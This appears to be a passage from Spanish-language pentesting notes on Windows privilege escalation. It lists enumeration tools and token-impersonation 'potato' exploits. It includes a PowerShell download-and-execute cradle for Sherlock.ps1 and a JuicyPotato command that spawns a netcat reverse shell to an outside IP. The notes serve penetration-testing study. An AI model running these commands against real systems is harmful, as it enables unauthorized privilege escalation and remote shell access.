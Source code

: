 **Lista de privilegios peligrosos en este proyecto de github**
[[mis)use the Windows Privileges to elevate your rights within the OS.GitHub](https://github.com/gtworek/Priv2Admin|GitHub - gtworek/Priv2Admin: Exploitation paths allowing you to (mis)use the Windows Privileges to elevate your rights within the OS.GitHub]]

## Abusando de programas vulnerables

### Unpatched Software

```
wmic product get name,version,vendor # para listar los programas instalados
```

## Herramientas automatizadas

- WinPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- PrivEscCheck: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

- WES-NG: [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

- Watson para ver si hay versiones antiguas de los programas: [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

- Sherlock.ps1 para ver si hay exploit kernel: [https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1](https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1) (Para ejecutarlo simplemente tenemos que añadir al final del script `Find-AllVulns` y poner el script en un servidor con python y ejecutarlo desde la máquina con el siguiente comando `IEX(New-Object Net.WebClient).downloadString('http://<tuip>/Sherlock.ps1'`)

- JuicyPotato: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato) para abusar de estos privilegios:

    - SeImpresonatePrivilage

    - SeAssignPrimaryTokenPrivilage

```
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\PrivESc\nc.exe -e cmd 10.10.14.14 4443" -c "CLSID"
```

En versiones antiguas como Windows Server 2003 no funciona el JuicyPotato, pero hay el churrasco.exe que funciona en estos casos, paso un artículo que lo explica todo:[https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Aquí dejo un artículo que explica muy bien como funciona el JuicyPotato:
[Impersonating Privileges with Juicy PotatoMedium](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)

- RottenPotatoNG: [https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) para abusar de estos privilegios:

    - CoGetInstanceFromIStorage
